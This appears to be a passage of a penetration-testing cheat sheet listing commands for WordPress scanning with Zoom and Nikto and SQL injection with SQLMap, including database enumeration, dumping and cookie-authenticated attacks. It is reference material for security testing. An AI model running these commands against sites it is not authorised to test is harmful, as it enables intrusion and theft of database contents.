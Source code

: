 #### Zoom

```bash
#Zoom is a lightning-fast WordPress vulnerability scanner
git clone https://github.com/gcxtx/zoom

#Manual Mode - In manual mode you must specify a WordPress website to scan for vulnerabilities
python zoom.py -u <wordpress website>

#Automatic Mode - In automatic mode, Zoom will find subdomains and check those using WordPress for vulnerabilities.
python zoom.py -u <website> --auto
```

#### Nikto

```bash
nikto -host $URL
```
------------------

## Gaining access
-----

#### SQLMap

```sh
# sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws.

#To get a list of basic options and switches use:
sqlmap -h (-hh for all options/extended)

#Simple HTTP GET Based Test
sqlmap -u https://testsite.com/page.php?id=1 --dbs

# -u state the vulnerable URL
# --dbs to enumerate the database.


#Simple HTTP POST Based Test - In burpsuite identify the vulnerable POST request and save it. You can right click on the request and select "Copy to file" and save the request to a local file. Next you can point SQLMap to that file using the -r parameter:

1. sqlmap -r <request_file> -p <vulnerable_parameter> --dbs
or
2. sqlmap -r <request_file> --dump --batch

#Syntax for connecting to MySQL
mysql -h [IP] -u [username] -p


###AUTHENTICATED

sqlmap -u "http://www.website.com/viewprofile.aspx?id=1" --cookie="cookie value obtained via document.cookie" --dbs

The above query causes sqlmap to apply various injection techniques on the name parameter of the URL in an attempt to extract the database information of the website.

# -u specifies the target URL
# --cookie specifies the HTTP cookie header value
# --dbs enumerates DBMS databases.

```